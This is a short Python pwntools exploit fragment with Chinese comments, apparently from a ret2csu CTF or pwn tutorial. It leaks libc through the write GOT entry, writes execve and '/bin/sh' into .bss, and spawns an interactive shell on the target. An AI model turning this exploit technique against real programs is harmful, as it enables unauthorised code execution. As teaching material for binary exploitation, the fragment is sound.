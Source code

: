 ```python

sh.recvuntil('Hello, World\n')
## RDI, RSI, RDX, RCX, R8, R9, more on the stack
# 第一次调用：write(1, write_got, 8)
csu(0, 1, write_got, 8, write_got, 1, main_addr)
write_addr = u64(sh.recv(8))  # 接收 write 的真实地址
libc = LibcSearcher('write', write_addr)
libc_base = write_addr - libc.dump('write')
execve_addr = libc_base + libc.dump('execve')
log.success('execve_addr ' + hex(execve_addr))
##gdb.attach(sh)

## read(0,bss_base,16)
## read execve_addr and /bin/sh\x00
sh.recvuntil('Hello, World\n')
# 第二次调用：read(0, bss_base, 16)
csu(0, 1, read_got, 16, bss_base, 0, main_addr)
sh.send(p64(execve_addr) + '/bin/sh\x00')  # 写入 execve 地址和 /bin/sh

# 第三次调用：execve(bss_base+8, 0, 0)
sh.recvuntil('Hello, World\n')
csu(0, 1, bss_base, 0, 0, bss_base+8, main_addr)
sh.interactive()  # 获取 shell

sh.interactive()
```



